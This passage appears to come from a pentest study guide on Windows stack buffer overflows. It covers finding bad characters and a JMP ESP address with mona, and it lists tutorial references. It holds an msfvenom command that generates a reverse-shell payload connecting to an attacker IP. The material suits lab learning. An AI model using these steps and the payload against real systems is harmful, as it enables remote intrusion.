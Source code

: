 18. Use mona to identify bad characters, based on the byte array. ```!mona compare -f <mona's working directory>\bytearray.bin -a <EIP Address>```
19. A dialog should open, mona Memory comparison results.
20. Not all characters listed are necessarily bad.  Rerun step 14, adding the first bad character to the bytearray and remove that character from exploit_step3.py payload.
21. Repeat steps 14 - 20, until mona reports no bad characters.
22. Find a JMP ESP point, with mona.  ```!mona jmp -r esp -cpb "\x00"``` The JMP point will instruct the computer to execute the code at ESP.
23. Rewrite the JMP address in little-endian and set it as the RETN value in exploit_step4.py.  If the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.
24. Generate a payload, using msfvenom, specifying the bad characters for -b. ```msfvenom -p windows/shell_reverse_tcp LHOST=<Attack IP Address> LPORT=<Port #> EXITFUNC=thread -b "\x00" -f c```
25. exploit_step4.py uses a NOP sled, so that the ESP address does not have to be exact.  The application will hit the NOP and continue until it finds code to execute.
##### Notes
After overwriting EIP, ESP points to the address just after the overriden EIP.  Any payload is written here.

# [Metasploit Module](https://taishi8117.github.io/2016/07/24/bof-metasploit/)

# Buffer Overflow References
##### [Exploiting Simple Buffer Overflow (1) - Super Basics](https://taishi8117.github.io/2015/11/07/stack-bof-1/)
##### [Exploiting Simple Buffer Overflow (2) - Shellcode + ASLR Bruteforcing](https://taishi8117.github.io/2015/11/11/stack-bof-2/)
##### [Exploiting Simple Buffer Overflow (3) - Writing a simple Metasploit module](https://taishi8117.github.io/2016/07/24/bof-metasploit/)

##### [Immunity Debugger](https://www.immunityinc.com/products/debugger/)

##### [Mona](https://github.com/corelan/mona)

##### [Buffer Overflow attack tutorial - 0x00](https://www.youtube.com/watch?v=j7AEzGKuKUU)

##### [Buffer Overflows Made Easy - Part 1: Introduction](https://www.youtube.com/watch?v=qSnPayW6F7U)

##### [buffer-overflows.rst](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst)

##### [dostackbufferoverflowgood](https://github.com/justinsteven/dostackbufferoverflowgood)

##### [Running a Buffer Overflow Attack - Computerphile](https://www.youtube.com/watch?v=1S0aBV-Waeo)

##### [UNDERSTANDING BUFFER OVERFLOWS ATTACKS (PART 1)](https://itandsecuritystuffs.wordpress.com/2014/03/18/understanding-buffer-overflows-attacks-part-1/)